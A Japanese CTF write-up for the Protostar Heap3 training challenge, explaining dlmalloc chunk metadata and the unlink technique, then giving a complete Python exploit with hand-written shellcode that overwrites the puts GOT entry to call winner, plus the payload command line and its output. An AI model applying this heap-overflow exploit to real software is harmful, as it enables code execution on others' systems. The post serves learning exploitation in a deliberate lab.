 ```yaml
---
layout: post
alias: "/blog/2016/02/04/exploit-exercises-protostar-heap3/"
date: 2016-02-04T05:14:02+09:00
tags: [ "ctf", "writeup", "exploit-exercises", "heap", "heap-overflow", "dlmalloc", "heap-metadata" ]
---
```


# Exploit Exercises Protostar Heap3

前3問はよかったのに、これは急に難易度上がりすぎだし不親切なのよくないと思う。

つまりほぼ完全に他の人の解説に頼った。ある程度の理解と成長はしたはずなので許してください。

## [Protostar Heap3](https://exploit-exercises.com/protostar/heap3/)

### 問題

-   関数`winner`を呼ぶのが目標。
-   `malloc`や`free`がstaticにlinkされている。
    -   dlmallocであるとのこと。
    -   `free`のgotをoverwriteできない。
    -   `puts`のgotは存在する。
-   heapのアドレスは固定。
    -   これは与えられたvmの環境によるもの。
    -   手元で試す際はgdbの上で動けば成功としてよい。

### 解説

攻撃対象のコードは以下である。

``` c
int main(int argc, char **argv)
{
    char *a, *b, *c;

    a = malloc(32);
    b = malloc(32);
    c = malloc(32);

    strcpy(a, argv[1]);
    strcpy(b, argv[2]);
    strcpy(c, argv[3]);

    free(c);
    free(b);
    free(a);

    printf("dynamite failed?\n");
}
```

攻撃の流れは、`strcpy`でのbuffer overflowを使ってmallocの使うmetadataを書き換え、`free`の内部で`puts`のgotを書き換えさせる。`printf`は最適化により`puts`を呼び出す。

#### malloc[^1]

mallocは領域を効率良く確保/開放するためのライブラリである。
osに毎回領域を要求すると遅くなるので、まとまった量を確保し、これをchunkという単位に分けてユーザに渡す。

dlmallocはosから直接確保した領域をarenaとして管理する。
arenaはdlmallocが静的領域に持つ根から繋がる単方向連結リストとして保持される。
ただし今回は単一のarenaのみ考えればよい。

各arenaはそれに属する(未使用の)chunkの情報を持つ。
小さいchunkは単方向連結リスト(`fastbins`)で、大きめのchunkは双方向連結リスト(`bins`)で持つ。
このリストはそれぞれに関してもさらにchunkの大きさ別に複数本用意され、要求された大きさにちょうど合う未使用chunkを効率よく探せるようになっている。
小さいchunkを単方向に連結するのは時間/空間のoverheadを減らすためで、大きめのchunkを双方向に連結するのは前後の未使用chunkとの併合を効率良く行うため。

使用中のchunkのアドレスはユーザが保持しfreeの際渡されてくるので、arenaでは保持しない。
かなり大きいchunkはmmap systemcallで直接確保しfreeの際は即時munmapされるので、未使用の状態はない。

chunkが持つ情報は、そのchunkの大きさと状態によって変わる。
どのchunkも自分自身のchunkの大きさ(`head`, `size`)は保持している。
また、chunkの大きさは4の倍数であるので、このsizeの下位2bitに、そのchunkがmmapで確保されたかどうか(`IS_MMAPPED = 0x2`)、そのchunkの(空間上で)直前のchunkが使用中であるか(`PREV_INUSE = 0x1`)の情報が詰め込まれる。
chunkが未使用であれば、その未使用である領域を使って連結リストにおける前後のchunkのアドレスを持つ(`fd`, `bk`)。
さらに、大きめのchunkでありかつ(空間上で)直前のchunkが未使用であれば、その未使用の領域を使って直前のchunkの大きさ(`prev_foot` or `prev_size`)も保持する。
これにより、大きめのchunkはarenaからポインタを用いて繋がる連結リストに加え、空間上で前後のchunkとのoffsetによる別の連結リストの要素であるともいえる。

開放の処理に関して、小さいchunkであれば前後の領域との併合は試さず未使用chunkのリストにそのまま追加する。
大きめのchunkであれば前後の領域との併合を試す。
(空間上で)直前のchunkが使用中でないようなchunkを開放する際、これらを併合する。
直前のchunkは双方向連結リストの要素であるが、大きさが増加するため、元々のリストからは外され、再度別のリストに追加される。
直後のchunkに関しても同様に併合を試す。ただし直後のchunkが使用中であるかの情報は、直後のchunkの直後のchunkの直前のchunkが使用中であるかどうか、という形で取得される。

#### 攻撃

攻撃に関して、chunkの併合が発生した際のリストからの削除を用いることができる。
chunkのmetadataは以下のようになっている。

``` c
// ftp://g.oswego.edu/pub/misc/malloc-2.8.6.c L2182
struct malloc_chunk {
    size_t               prev_foot;  /* Size of previous chunk (if free).  */
    size_t               head;       /* Size and inuse bits. */
    struct malloc_chunk* fd;         /* double links -- used only if free. */
    struct malloc_chunk* bk;
};
```

chunk `p`を開放する際(ただしこれは`free(p+8)`として呼び出される)、直前のchunk `q = p - p->prev_foot`をそのリストから外す。つまり、

``` c
struct malloc_chunk *FD = q->fd;
struct malloc_chunk *BK = q->bk;
FD->bk = BK;  // *(FD + 0xc) = BK;
BK->fd = FD;  // *(BK + 0x8) = FD;
```

という処理が発生する。
heap上overflowが可能であれば`FD`と`BK`を操作できるので、好きなアドレスへの書き込みが可能となる。

ただし書き込みは複数回発生する。1回の併合に関して`FD->bk`と`BK->fd`で2回であり、もし前後のchunkの両方と併合するのであれば合計4回となる。
また、`BK`の値を書き込もうとすれば`BK->fd`を破壊することになるため、`BK`は書き込み可能な領域近くである必要がある。

よって攻撃の際におさえておくべき点は、

-   chunkの大きさを前後との併合が発生する大きさに変えること
-   書き込むアドレスは書き込み可能なアドレスにすること
-   直後のchunkの状態を使用中にしておくこと

の3点であろう。

あとはこれをやる。
[exploit exercises - protostar - heap levels \| research \| sprawl](https://thesprawl.org/research/exploit-exercises-protostar-heap/#heap-3) を参照。


### 実装

``` python
#!/usr/bin/env python3
import struct
p32 = lambda x: struct.pack('<I', x % (1<<32))
puts_got = 0x804b128 # $ objdump -R heap3 | grep '\<puts\>'
winner   = 0x8048864 # $ readelf -s heap3 | grep '\<winner\>'
heap     = 0x804c000 # gotten by gdb, but ...
a = b''.join([ # 32byte
    b'AAAA', # heap + 0x8, write here to puts's got
    b'\xeb\x06' + b'AA', # the `call <puts>' jumps to here, shellcode: jmp $eip+6
    b'AAAA', # BK->fd, written as a side effect
    b'\x68\x64\x88\x04', # shellcode: push 0x08048864 <winner>
    b'\x08' + b'\xc3' + b'AA', # shellcode: ret
    b'AAAA',
    b'AAAA',
    b'AAAA',
    ])
b = b''.join([ # 40byte (32byte + 8byte overflow)
    b'BBBB',
    b'BBBB',
    b'BBBB',     # virtual next next chunk addr
    p32(-8 + 1), # virtual next next chunk size and PREV_INUSE
    p32(-4), # virtual next chunk addr
    p32(-8), # virtual next chunk size
    b'BBBB',
    b'BBBB',
    p32(-4),   # prev_size
    p32(-16)]) # size
c = b''.join([ # 12byte
    b'CCCC',
    p32(puts_got - 0xc),  # virtual prev chunk fd
    p32(heap     + 0x8)]) # virtual prev chunk bk
shrepr = lambda x: '$' + repr(x)[1:]
print('$', './heap3', shrepr(a), shrepr(b), shrepr(c))
```

``` sh
$ ./heap3 $'AAAA\xeb\x06AAAAAAhd\x88\x04\x08\xc3AAAAAAAAAAAAAA' $'BBBBBBBBBBBB\xf9\xff\xff\xff\xfc\xff\xff\xff\xf8\xff\xff\xffBBBBBBBB\xfc\xff\xff\xff\xf0\xff\xff\xff' $'CCCC\x1c\xb1\x04\x08\x08\xc0\x04\x08'
that wasn't too bad now, was it? @ 1454528650
```

### 参考

-   [exploit exercises - protostar - heap levels \| research \| sprawl](https://thesprawl.org/research/exploit-exercises-protostar-heap/#heap-3)
    -   大半をこれに頼った
-   [malloc(3)のメモリ管理構造 \| VA Linux Systems Japan株式会社](http://www.valinux.co.jp/technologylibrary/document/linux/malloc0001/)
    -   これもけっこう役に立った
-   [ハンド (逆) アセンブルのための x86 ニーモニックの覚え方 - @a4lg のそろそろ技術的日記](http://d.hatena.ne.jp/a4lg/20120225/1330180431)
    -   shellcodeを読むのに
-   <ftp://g.oswego.edu/pub/misc>
-   [Beyond Zero-day Attacks（3）：ヒープに対する攻撃とその対策 (1/3) - ＠IT](http://www.atmarkit.co.jp/ait/articles/1408/28/news010.html)
-   [npca2014年部誌 glibcにおいてheap overflowによる任意のアドレス書き換えは可能か? - potetisensei](http://www.npca.jp/works/magazine/2014_10/)
-   [Glibc malloc internal](http://www.slideshare.net/kosaki55tea/glibc-malloc)

---

# Exploit Exercises Protostar Heap3

-   Fri Mar 18 18:47:27 JST 2016
    -   別の問題のため参照したついでにいくらか修正
